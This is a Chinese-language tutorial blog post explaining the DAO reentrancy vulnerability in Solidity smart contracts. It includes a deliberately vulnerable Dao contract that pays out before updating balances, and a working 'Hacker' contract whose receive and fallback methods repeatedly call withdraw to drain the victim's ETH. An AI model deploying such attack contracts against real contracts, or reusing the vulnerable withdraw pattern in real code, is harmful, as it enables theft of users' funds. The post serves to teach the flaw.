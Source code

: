 ```yaml
---
title: tho dao 合约漏洞
date: 2024-07-30 13:43:23
author: ivhu
categories:
  - 信息安全
  - 以太坊
tags:
  - solidity
  - the dao
---
```


## 什么是 TheDao 漏洞？

简单来讲，thedao 漏洞允许黑客将 thedao 合约中储存的 eth 全部取走。

那么什么是合约之中的 eth 呢？

solidity 允许合约定义 payable 方法来接受 eth. 当用户调用带有 payable 关键字的合约方法时，如果`msg.value`不为 0,则将`msg.value`转移到合约账下。

由于 thedao 是一个面对所有人的合约，而他的业务逻辑也需要用户将 eth 转移到他的合约里面。

那么正常情况下 thedao 合约中有大量的 eth,来自于不同人的转账，一般而言合约会使用一个 mapping 来记录每个地址有多要 eth 在这里面。

## solidity 特性

如果我们向一个合约转账，这里的转账不是使用合约调用的方式，而是像普通转账一样，calldata 为空。

这时合约会自动调用 receive 方法（如果有的话），这将允许合约在收到转账后进行一些操作。

### 什么是先转账后记账

在合约中我们可以使用 transfer,send 等方法将合约中一定数量的 eth 转移到对应的账户中，当然这里的转账对象也可以是另一个合约。

而记账的意思是，由于我们所有的 eth 都是放合约里面，没有区分那个 eth 是谁的，具体的记录一般在合约中用 mapping 记录，那么在合约中，每次我们进行转账时，都应该修改我们维护的账本（也就是那个 mapping）。先转账后记账的意思就是，先使用 transfor,send,call 等方法转账，而后更新 mapping 中的数据。在合约中表现为转账的操作在修改 mapping 的操作前面。

eg：

```solidity
    (bool sent, ) = msg.sender.call{value: bal}("");  // 先转账
    require(sent, "Failed to withdraw sender's balance");

    // Update user's balance.
    balances[msg.sender] = balances[msg.sender] - bal;  // 后修改mapping中的数据

```

那么回到 solidity 的特性，在转账时，接受者合约可以定义`recevie`方法，在转账发生时进行相关操作。

## 漏洞的利用

- 当我们调用 theDao 中转账函数时，合约会向`msg.sender`转账.

- `msg.sender`是黑客的合约，当 theDao 向黑客的合约转账时，会调用黑客合约中的 recevie 方法.

- 由于 evm 是单线程的，所以后面修改 mapping 的操作还不会进行，而黑客的 recevie 方法则再次调用 thedao 中的转账合约.

- 由于 thedao 合约还没有修改账本，所以 thedao 合约还是认为黑客合约还可以提款，而当进行到提款操作时又会进入到黑客合约的`recevie`方法.

如此循环，直到达到黑客`recevie`中设置的阈值。

**案例合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

contract Dao {
mapping(address => uint256) public balances;

    function deposit() public payable {
        require(msg.value >= 1 ether, "Deposits must be no less than 1 Ether");
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        // Check user's balance
        require(
            balances[msg.sender] >= 1 ether,
            "Insufficient funds.  Cannot withdraw"
        );
        uint256 bal = balances[msg.sender];

        // Withdraw user's balance
        // payable(msg.sender).transfer(bal);  // transfer只能向eoa发送交易
        (bool sent, ) = msg.sender.call{value: bal}("");  // call  eoa和合约都可以发送
        require(sent, "Failed to withdraw sender's balance");

        // Update user's balance.
        balances[msg.sender] = balances[msg.sender] - bal;
        require(balances[msg.sender]>=0,"balances < 0");
    }

    function daoBalance() public view returns (uint256) {
        return address(this).balance;
    }

}
```

**黑客合约：**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.10;

interface IDao {
    function withdraw() external ;
    function deposit()external  payable;
 }

contract Hacker{
    IDao dao;
    address payable hacker;

    constructor(address _dao){
        dao = IDao(_dao);
        hacker = payable(msg.sender);
    }

    function attack() public payable {
        // Seed the Dao with at least 1 Ether.
        require(msg.value >= 1 ether, "Need at least 1 ether to commence attack.");
        dao.deposit{value: msg.value}();

        // Withdraw from Dao.
        dao.withdraw();
    }

    fallback() external payable{
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }
    receive() external payable {
        if(address(dao).balance >= 1 ether){
            dao.withdraw();
        }
    }

    function getBalance()public view returns (uint){
        return address(this).balance;
    }
    function getAllETH()public {
        hacker.transfer(address(this).balance);
    }
}
```
